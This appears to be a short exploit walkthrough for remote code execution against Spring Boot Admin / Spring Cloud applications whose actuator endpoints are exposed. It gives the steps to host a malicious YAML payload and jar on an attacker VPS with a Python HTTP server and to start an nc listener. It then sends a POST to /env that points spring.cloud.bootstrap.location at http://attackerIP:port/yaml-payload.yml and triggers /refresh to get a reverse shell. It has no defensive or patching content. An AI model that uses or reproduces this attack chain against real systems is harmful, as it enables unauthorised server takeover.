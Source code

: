 # Spring-Boot-Admin
Spring-Boot-Admin

You can see that the main interface can log in without authorization. Of course, not logging in may also trigger this vulnerability
![image](https://user-images.githubusercontent.com/83150001/115980614-b2fa8b00-a5c0-11eb-9d62-edd3a1ed8d1c.png)

Add / env to the path of the website to see the error information in the log

![image](https://user-images.githubusercontent.com/83150001/115980640-d8879480-a5c0-11eb-87eb-1123b2387d8f.png)


Environmental preparation:
Open the web service on VPS and add yaml- payload.yml , and yaml- payload.jar Upload to the server, as shown in the figure below.

python3 -m http.server 8088
![image](https://user-images.githubusercontent.com/83150001/115980675-23091100-a5c1-11eb-95df-4edeadb81b06.png)


![image](https://user-images.githubusercontent.com/83150001/115980673-1f758a00-a5c1-11eb-9ad8-c19a1a391a2f.png)

NC monitor rebound port.

![image](https://user-images.githubusercontent.com/83150001/115980741-90b53d00-a5c1-11eb-922b-40de92a6cc53.png)

The file payload of YML is as follows:

![image](https://user-images.githubusercontent.com/83150001/115980759-b3dfec80-a5c1-11eb-8cf7-2641ab86d7b6.png)

yaml-payload.jar You need to download and modify the compilation
Download address：

https://github.com/artsploit/yaml-payload


Start using the following: modify the request

Send request package:

POST /env 
spring.cloud.bootstrap.location=http://attackerIP:port/yaml-payload.yml
![image](https://user-images.githubusercontent.com/83150001/115980828-43859b00-a5c2-11eb-9b85-276091a0ae9c.png)

Request / refresh interface, refresh interface configuration, and successfully rebound the session to VPS.
![image](https://user-images.githubusercontent.com/83150001/115980857-7891ed80-a5c2-11eb-8bb5-a0704518c5f9.png)





